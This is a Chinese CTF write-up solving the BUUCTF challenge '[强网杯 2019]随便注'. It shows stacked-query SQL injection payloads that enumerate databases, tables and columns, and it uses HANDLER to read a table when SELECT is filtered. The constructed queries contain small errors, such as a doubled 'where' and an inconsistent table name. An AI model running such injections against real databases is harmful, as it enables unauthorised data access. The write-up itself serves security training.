



> 例题：BUUCTF \[强网杯 2019\]随便注

## 查数据库名

```txt
1'; show databases; #
```

```sql
select * from user where name ='1'; show databases; #
```

结果：



## 查表名

```txt
1'; show tables; #
```

或

```txt
1'; show tables from supersqli; #
```

```sql
select * from user where name = '1'; #
```

结果：



## 查字段名

```txt
1'; show columns from `1919810931114514`; #
```

```sql
select * from user where where name = '1'; show columns from `191981093114514`; #
```

> 关于在这里使用 \` 而不是 \' 的一些解释：
>
> 两者在linux下和windows下不同，linux下不区分，windows下区分。
>
> 单引号 \' 或双引号主要用于字符串的引用符号。
>
> 反勾号 \` 数据库、表、索引、列和别名用的是引用符是反引号。
>
> ***有MYSQL保留字作为字段的，必须加上反引号来区分！！！***
>
> ***如果是数值，请不要使用引号。***

## 查字段内容

用 `handler` 代替被禁用的 `select` 进行查询：

```txt
1'; handler `1919810931114514` open as `a`; handler a read next; #
```

```sql
select * from user where where name = '1'; handler `1919810931114514` open as `a`; handler a read next; #
```

结果：



## ***Cracked.***

::: tip
本题还有其他很多解题思路，等待以后来补全......
:::
